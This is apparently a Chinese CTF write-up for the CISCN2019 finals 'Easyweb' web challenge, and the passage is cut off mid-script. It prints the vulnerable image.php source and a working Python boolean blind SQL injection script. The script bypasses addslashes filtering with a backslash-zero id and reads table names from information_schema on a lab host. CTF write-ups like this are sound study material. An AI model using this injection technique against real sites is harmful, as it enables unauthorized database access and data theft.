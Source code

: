 ```yaml
---
typora-root-url: images
---
```


## 前言

​	准备一下国赛，所以刷了很多misc(因为misc手及其缺人),so没有怎么学web。

​	还有打了pycc，主要做了misc和两道web就不贴wp了。

## [CISCN2019 总决赛 Day2 Web1]Easyweb 

访问是一个登陆界面，访问robots.txt 

![image](https://user-images.githubusercontent.com/81904597/117298376-e33c0680-aea9-11eb-9342-ba0f7bfb78d9.png)

我们尝试访问User.php.bak，500，访问image.php.bak，下载php文件 

```php
<?php
include "config.php";

$id=isset($_GET["id"])?$_GET["id"]:"1";
$path=isset($_GET["path"])?$_GET["path"]:"";

$id=addslashes($id);
函数返回在预定义字符之前添加反斜杠的字符串。预定义的字符有：单引号，双引号，反斜杠，NULL
$path=addslashes($path);

$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
$path=str_replace(array("\\0","%00","\\'","'"),"",$path);

$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
$row=mysqli_fetch_array($result,MYSQLI_ASSOC);

$path="./" . $row["path"];
header("Content-Type: image/jpeg");
readfile($path);
```

盲注得到username和password 

```python
import requests

url = "http://04c4f002-4712-444e-bbb6-f690232960d3.node3.buuoj.cn/image.php"
result = ''

for i in range(0, 30):
    right = 127
    left = 32
    mid = int((right + left) >> 1)
    while right > left:
        payload = " or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),%d,1))>%d,1,0)#" % (i, mid)
        params = {
            'id': '\\0',
            'path': payload
        }
        response = requests.get(url, params=params)

        if "JFIF" in response.text:
            left = mid + 1
        else:
```